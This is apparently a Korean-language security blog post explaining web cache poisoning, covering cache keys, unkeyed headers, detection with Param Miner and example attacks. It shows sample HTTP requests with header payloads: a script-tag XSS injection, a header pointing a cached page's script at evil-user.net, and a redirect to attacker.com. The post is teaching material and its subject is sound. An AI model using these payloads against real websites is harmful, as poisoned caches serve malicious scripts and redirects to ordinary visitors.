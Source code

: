```yaml
---
title: Cache Poisoning
desc: What is Cache Poisoning
date: 2024-12-20
thumbnail: /posts/basic_skill/cache_poisoning/thumbnail.png
---
```


## What's Cache Poisoning?

Cache Poisoning은 웹 애플리케이션의 성능 향상을 위해 사용되는 Cache Server를 악용하는 사이버 공격 기법입니다. 
공격자는 Cache Server에 의도적으로 잘못된 또는 악성 데이터를 저장시켜, 해당 Cache를 사용하는 사용자들에게 오염된 정보나 악성 콘텐츠를 제공하게 만듭니다.
공격이 성공하게 되면 일반 사용자는 저장된 악성 Cache를 통해 피해를 입게 됩니다.

---

## Background

### Cache Server
웹 서버의 부하를 줄이고 응답 속도를 향상시키기 위해 자주 요청되는 데이터를 저장하는 중간 서버입니다. (웹 서버, CDN, 프록시 서버 등)

### Cache Key
Cache에 저장된 콘텐츠를 식별하는 데 사용되는 고유식별자입니다. 일반적으로 URL, HTTP 헤더, 쿼리 파라미터 등을 조합하여 생성됩니다.

### Unkeyed
Unkeyed는 Cache Server가 특정 HTTP 헤더나 쿠키 값을 Cache Key에 포함시키지 않는지만 서버의 응답에는 영향을 주는 헤더 또는 파라미터를 말합니다.

---

## Detection
기본적으로 Cache Poisoning은 영향력 있는 Unkeyed가 존재할 때 취약점으로 이어지기 때문에 Unkeyed를 찾기 위해서 일반적으로 Param Miner라는 도구를 사용합니다.

> **Param Miner**는 숨겨진 헤더나 파라미터를 찾는 BurpSuite Extention입니다.

---

## Basic Attack

### XSS

웹사이트가 Unkeyed 헤더 값을 Cache Key에 참고하지 않고 사용될 때, 이를 악용하여 XSS (Cross-Site Scripting) 공격을 수행할 수 있습니다.

**예시**
```http
##Request
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: a."><script>alert(1)</script>"

##Response
HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://a."><script>alert(1)</script>"/cms/social.png" />
```
`X-Forwarded-Host` 헤더가 Cache Key에 포함되지 않아, 위와 같은 악성 응답이 Cache될 수 있습니다. 이후 `/en?region=uk`에 접근하는 모든 사용자에게 XSS 페이로드가 전달됩니다.

### 악성 리소스 추가 공격

웹사이트가 외부 리소스 URL을 생성할 때 Unkeyed 헤더 값을 사용할 경우, 공격자는 자신의 악성 자바스크립트 파일을 추가 할 수 있습니다.

**예시**
```http
##Request
GET / HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: evil-user.net
User-Agent: Mozilla/5.0 Firefox/57.0

##Response
HTTP/1.1 200 OK
<script src="https://evil-user.net/static/analytics.js"></script>
```
`X-Forwarded-Host` 헤더가 Cache Key에 포함되지 않고, 웹사이트에서 `X-Forwarded-Host` 값을 그대로 사용하여 자바스크립트 URL을 생성합니다.

---

## Advanced Attack

### 헤더 조합을 이용한 공격

웹사이트가 여러 개의 unkeyed 헤더 값을 조합하여 동적으로 URL을 생성할 때, 공격자는 이 헤더들을 조작하여 Cache를 오염시키고, 사용자를 악성 URL로 리디렉션 시킬 수 있습니다.

**예시**
```http
##Request
GET /random HTTP/1.1
Host: innocent-site.com
X-Forwarded-Proto: http  
X-Original-Host: attacker.com

##Response
HTTP/1.1 301 Moved Permanently
Location: https://attacker.com/random 
```

**과정**
1.  Cache Server는 `X-Forwarded-Proto`, `X-Original-Host` 헤더를 Cache Key 생성에 사용하지 않는다고 가정합니다.
2.  웹 서버는 `X-Forwarded-Proto` 헤더를 보고 HTTPS 리디렉션을 시도하고, 리디렉션 URL을 만들 때 `X-Original-Host` 값을 사용합니다.
3.  해당 리디렉션 과정이 Cache되어 저장됩니다.
4.  다른 사용자들이 `/random`을 요청하면, Cache된 악성 리디렉션 응답을 받게 됩니다.

> `X-Forwarded-Proto: http`이 헤더는 요청이 HTTP 프로토콜을 통해 왔음을 나타냅니다. 웹 서버는 요청이 HTTP로 왔을때 HTTPS로 리디렉션 하게됩니다.

---

## Reference
https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws
https://developer.mozilla.org/ko/docs/Web/HTTP/Headers

---
## Lab
https://portswigger.net/web-security/all-labs#web-cache-poisoning